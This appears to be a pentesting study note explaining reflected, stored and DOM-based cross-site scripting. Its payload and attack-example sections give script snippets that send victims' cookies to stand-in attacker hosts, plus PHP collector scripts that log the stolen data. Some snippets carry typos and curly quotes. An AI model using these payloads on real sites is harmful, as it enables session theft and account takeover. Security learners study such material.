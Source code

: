 ```yaml
---
title: XSS attack - Cross-Site Scripting
author: amandaguglieri
draft: false
TableOfContents: true
tag: pentesting, webpentesting
---
```


# XSS attack - Cross-Site Scripting

**Cross-Site Scripting** attacks or **XSS** attacks enable attackers to inject client-side scripts into web pages. This is done through an URL than the attacker sends. Crafted in the URL, this js payload is injected.

```
# Quick steps to test XSS 
# 1. Find a reflection point (inspect source code and expand all tags to make sure that it's really a reflection point and it's not parsing your input)
# 2. Test with <i> tag
# 3. Test with HTML/JavaScript code (alert('XSS'))
```

But, of course, you may use an extensive repository of payloads.


## Cross-Site Scripting XSS: reflected, persistent or DOM based

**Reflected attacks**: malicious payload is carried inside the request that the browser sends. You need to bypass the anti-xss filters. This way when the victim clicks on it it will be sending their information to the attacker (limited to js events).  

Example:

```
http://victim.site/seach.php?find=<payload>
```

**Persistent or stored XSS attacks**: payload is sent to the web server and then stored. The most common vector for these attacks are HTML forms that submit content to the web server and then display that content back to the users (comments, user profiles, forum posts…). Basically if the url somehow stays in the server, then, every time that someone accesses to it, they will suffer the attack.

**DOM based** XSS attacks: tricky one. This time the javascript file procedes from the server, and in that sense, the file is trusteable. Nevertheless, the file modifies changes in the web structure. [Quoting OWASP](https://owasp.org/www-community/attacks/DOM_Based_XSS): "DOM Based XSS (or as it is called in some texts, “type-0 XSS”) is an XSS attack wherein the attack payload is executed as a result of modifying the DOM “environment” in the victim’s browser used by the original client side script, so that the client side code runs in an unexpected manner".


## Mitigation for cookie stealing

Depending on Enabling the HTTPOnly flag.


## Crafted payloads

```html
<script>alert(‘lala’)</script>

<script>alert(document.cookie)</script>

<script>
var i = new Image();
i.src = “http://attacker.site/log.php?q=”+document.cookie;
</script>
```

Now, this script save the cookie in a text file on the attacker site:

```php
	<?php
		$filename=”/tmp/log.txt”;
		$fp=fopen($filename, ‘a’);
		$cookie=$_GET[‘q`];
		fwrite($fp, $cookie);
		fclose($fp);
	?>
```

## Example of an attack

1. The attacker creates a get.php file and saves it into its server. 

2. This php file will store the data that the attacker server receives into a file.

3. This could be the content of the get.php file:

```php
<?php
	$ip = $_SERVER(‘REMOTE_ADDR’);
	$browser = $_SERVER(‘HTTP_USER_AGENT’);

	$fp = fopen(‘jar.txt’, ‘a’);

fwrite($fp, $ip . ‘ ‘ . $browser . “ \n”);
fwrite($fp, urldecode($_SERVER[‘QUERY_STRING’]) . “ \n\n”);
fclose($fp);
?>
```

4. Now in the web server the attacker achieve to store this payload:

```html
<script>
var i = new Image();
i.src = “http://attacker.site/get.php?cookie=”+escape(document.cookie);
</script>

# Or in one line:
<script>var i = new Image(); i.src = “http://10.86.74.7/moville.php?cookie=”+escape(document.cookie); </script>
```
 

## Tools and payloads

+ See updated chart: [Attacks and tools for web pentesting](index-attacks-tools-web-pentesting.md).
+ Vectors (payload) regularly updated: [https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet).
+ OWASP Cheat Sheet series: XSS Filter Evasion Cheat Sheet: [https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html).
 






